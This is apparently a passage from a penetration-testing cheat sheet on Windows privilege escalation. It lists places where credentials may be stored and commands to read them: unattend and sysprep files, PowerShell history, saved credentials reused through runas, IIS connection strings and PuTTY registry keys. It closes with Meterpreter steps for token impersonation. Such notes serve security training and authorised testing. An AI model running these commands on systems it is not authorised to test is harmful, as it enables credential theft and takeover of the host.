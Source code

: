 	- [Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)
	- [Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

### Possible stored credentials 
#### Unattended Windows Installations
- C:\Unattend.xml
- C:\Windows\Panther\Unattend.xml
- C:\Windows\Panther\Unattend\Unattend.xml
- C:\Windows\system32\sysprep.inf
- C:\Windows\system32\sysprep\sysprep.xml
```shell-session
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
#### Powershell History
cmd.exe
```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Powershell
```shell-session
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
#### Saved Windows Credentials
List saved credentials:
```shell-session
cmdkey /list
```
Use saved credentials with `runas` and `/savedcred`
```shell-session
runas /savecred /user:admin cmd.exe
```
#### IIS Configuration
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
#### Putty credentials
```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

#### Token Impersonation
Using meterpreter session
1. `whoami /priv` || `getprivs` : meterpreter
	1. SeImpersonatePrivilege
2. `load incognito` : load plugin
3. `list_tokens -g` : list available tokens
4. `impersonate_token "BUILTIN\Administrators"`
5. `pgrep services` : find process ID
6. `migrate <PID>` : migrate to services
